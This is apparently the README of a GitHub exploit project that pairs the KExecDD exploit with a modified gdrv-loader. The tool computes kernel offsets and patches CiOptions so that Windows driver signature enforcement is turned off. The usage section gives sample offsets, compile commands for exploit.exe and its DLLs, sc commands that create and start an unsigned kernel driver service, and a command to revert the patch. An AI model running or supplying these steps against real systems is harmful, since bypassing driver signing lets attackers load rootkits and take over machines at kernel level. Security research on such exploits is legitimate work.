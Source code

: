 # KexecDD-gdrv-loader
This is the same KExecDD exploit (https://github.com/floesen/KExecDD).

Rather than having to find the correct NTOSKRNL_WRITE_GADGET and CI_OPTIONS using a debugger for Kernel debugging on the target system, this comes together with a modified version of https://github.com/v1k1ngfr/gdrv-loader to calculate these offsets on the target system. A lot of the `gdrv-loader` code base is left untouched and not really needed.

Note: the stubs for `nt!FsRtlInitializeFileLock` and `ci!CiInitialize` might change in newer versions which might break the offset calculation.
This has been tested on a Windows 10 (Build 19045.4191).

This will cause bsod if run on a system with Virtualization-based Security (VBS) (https://learn.microsoft.com/en-us/windows-hardware/design/device-experiences/oem-vbs) enabled.

## Usage

Compile the offsets project and execute the exe on the target system. Get the offsets returned and copied them into the `kexecdd/dllmain.c` and `kexecdd/dllmain_restore.c`:

```
offsets.exe

> Offset CiOptions: 000000000003A478

> Offset asm mov:   0000000000201852
```

Compile the `loader.c`, `dllmain.c` and `dllmain_restore.c` using the x64 Native Tools Command Prompt:

```
cl.exe /nologo /MT /Ox /W0 /GS- /DNDEBUG loader.c /link Advapi32.lib /OUT:exploit.exe /SUBSYSTEM:CONSOLE /MACHINE:x64
cl.exe /LD /nologo /MT /Ox /W0 /GS- /DNDEBUG dllmain.c /link /OUT:exploit.dll /SUBSYSTEM:CONSOLE /MACHINE:x64
cl.exe /LD /nologo /MT /Ox /W0 /GS- /DNDEBUG dllmain_restore.c /link /OUT:restore.dll /SUBSYSTEM:CONSOLE /MACHINE:x64
```

Create the unsigned driver service:

```
sc create unsigned type= kernel binPath= C:\path_to\unsigned.sys
```

Run the exploit:

```
exploit.exe
```

Load the unsigned driver:

```
sc start unsigned
```

Revert the kernel memory patch:

```
exploit.exe 6
```

## More information

[LSASS rings KsecDD ext. 0](https://tierzerosecurity.co.nz/2024/04/29/kexecdd.html)
